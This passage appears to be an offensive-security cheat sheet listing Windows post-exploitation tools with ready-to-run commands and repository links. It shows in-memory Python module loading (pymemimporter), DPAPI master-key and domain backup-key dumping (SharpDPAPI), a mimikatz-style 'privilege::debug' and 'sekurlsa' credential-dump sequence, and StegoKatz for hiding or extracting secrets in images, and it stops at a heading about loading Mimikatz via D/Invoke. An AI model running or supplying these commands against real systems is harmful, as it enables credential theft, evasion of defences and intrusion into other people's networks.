 


### pymemimporter

```
import base64
import pymemimporter

# Load the base64-encoded module into memory
encoded_module = b'YOUR_BASE64_ENCODED_MODULE_HERE'
module_data = base64.b64decode(encoded_module)

# Import the module from memory
mem_importer = pymemimporter.PyMemImporter()
loaded_module = mem_importer.load_module('<module_name>', module_data)
base64 -w0 <module_name>.py > <module_name>.base64
python <script_name>.py
```

https://github.com/n1nj4sec/pymemimporter


### SharpDPAPI

```
dotnet run --project .\SharpDPAPI\SharpDPAPI.csproj
dotnet run --project .\SharpDPAPI\SharpDPAPI.csproj masterkeys
dotnet run --project .\SharpDPAPI\SharpDPAPI.csproj domainbackupkeys
```

https://github.com/GhostPack/SharpDPAPI


### Plog

```
privilege::debug

sekurlsa::Plog
```

https://github.com/GamehunterKaan/Plog




### StegoKatz

```
.\StegoKatz.ps1 -Embed -FilePath <file_path> -ImagePath <image_path> -OutputPath <output_path>
.\StegoKatz.ps1 -Extract -ImagePath stego_image.jpg -OutputPath extracted_secret.txt
```
https://github.com/r13mann/StegoKatz





### LoadMimikatzWithDinvoke.cs
